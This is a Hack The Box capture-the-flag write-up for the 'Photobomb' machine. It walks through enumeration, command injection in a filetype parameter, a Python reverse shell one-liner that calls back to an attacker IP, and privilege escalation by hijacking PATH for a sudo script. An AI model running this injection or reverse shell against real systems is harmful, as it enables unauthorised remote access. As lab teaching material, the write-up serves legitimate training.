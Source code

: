 # Hack-The-Box-writeups
Photobomb
1. Enumeration 
Let's start with a Nmap scan to discover services and open ports running on this machine.
nmap -sV -Sc 10.10.11.182
 
There are only two open ports, port 22 and port 80 
- Web content and Subdomain enumeration don’t show anything  

2. Port 80 enumeration
photobomb.htb
 
This link redirects to /printer which is asking for a username and password that we don’t know.
 
Photobomb.htb source code 
 
Let's take a look at this JS file: 

Now let's log in with those credentials 
 
The website offers "DOWNLOAD PHOTO TO PRINT"
Let's intercept the request using Burpsuite  
 
It seems vulnerable to command injection
Let's test for command injection, start "python web server" 
1. python3 -m http.server
2. inject ;curl+10.10.x.x:8000 to each parameter 
 
 


We found that only the filetype parameter is vulnerable 
Lets create some reverse shell: https://www.revshells.com/ 
export+RHOST="10.10.14.34";export+RPORT=5555;python3+-c+'import+sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)];pty.spawn("sh")'
Start the Netcat listener 

 

3. Privilege Escalation
Lets upgrade our shell 
export TERM=xterm
python3 -c 'import pty;pty.spawn("/bin/bash")'

Before running linpeas lets try the classic ways 
 
User wizard can run "cleanup.sh" with "sudo" privilege 



Lets check this script
 
So there are two interesting, “cd” and "find" called without their absolute path. so, we can exploit this misconfiguration by changing the "PATH variable"   
Lets create "cd" file that contains '/bin/bash'  and give 777 permission
 
Add /tmp to the beginning of the PATH variable 
 
 


